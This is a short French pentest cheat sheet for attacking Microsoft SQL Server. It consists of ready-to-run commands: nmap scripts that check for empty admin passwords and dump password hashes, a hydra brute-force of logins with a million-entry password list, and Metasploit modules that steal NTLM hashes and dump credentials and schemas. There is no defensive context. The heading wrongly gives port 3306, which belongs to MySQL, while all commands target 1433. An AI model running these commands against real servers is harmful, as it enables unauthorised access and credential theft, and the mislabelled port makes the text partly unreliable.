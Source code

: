Base de données SQL, port 3306, TCP
### Enumération                                                                                        

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip
```

---
### Brute force

```bash
hydra -l monUser -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt $ip mssql
```

---
### Metasploit

```bash
auxiliary/admin/mssql/mssql_ntlm_stealer
admin/mssql/mssql_enum
admin/mssql/mssql_enum_domain_accounts
admin/mssql/mssql_enum_sql_logins
auxiliary/admin/mssql/mssql_findandsampledata
auxiliary/scanner/mssql/mssql_hashdump
auxiliary/scanner/mssql/mssql_schemadump

```


---
